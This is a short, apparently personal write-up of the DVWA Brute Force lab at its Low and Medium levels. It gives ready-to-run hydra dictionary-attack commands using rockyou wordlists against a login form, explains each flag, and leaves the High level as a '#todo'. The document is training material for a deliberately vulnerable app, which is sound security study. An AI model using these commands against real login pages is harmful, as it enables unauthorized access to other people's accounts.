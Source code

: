# Brute Force - Low/Medium/High/Impossible


## Low and Medium

We see that when we try to log in with some admin:password, we get a image response, so we know the user is admin. No need to run through a dictionary of common users (which we will show later on). We can then use hydra or burp suite to "bruteforce", technically a dictionary attack though as we are not trying every combination. 

Single user: `hydra  -l admin  -P /usr/share/seclists/Passwords/rockyou.txt -e ns  -F  -u  -t 5  -w 1  -v  -V  192.168.1.21  http-get-form   "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie\: security=low; PHPSESSID=63434563"`

Multiple user: `hydra  -L /root/users.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt -e ns  -F  -u  -t 5  -w 1  -v  -V  192.168.1.21  http-get-form   "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie\: security=low; PHPSESSID=63434563"`

Taken from [g0tmi1k](https://blog.g0tmi1k.com/dvwa/bruteforce-low/).
The commands are as follows:

`-e ns` checks for null password and itself 
`-F` quits when it finds the password
`-u` what happens with this one is that it will try all usernames against the first password, then move to second and so forth. Instead of a single user trying all the combination to find out that there is no such user!
`-t 5 and -w 1` creates 5 threads (in parallel) and each threads wait 1 second after completion
`-v` enables verbose
`-V` prints our username and password
`:F=Username and/or password incorrect` blacklist approach , similarly you can do the same with `F=Content-Length\: 1524` because we know that the (failed login attempt) will be the same size.


## High

#todo
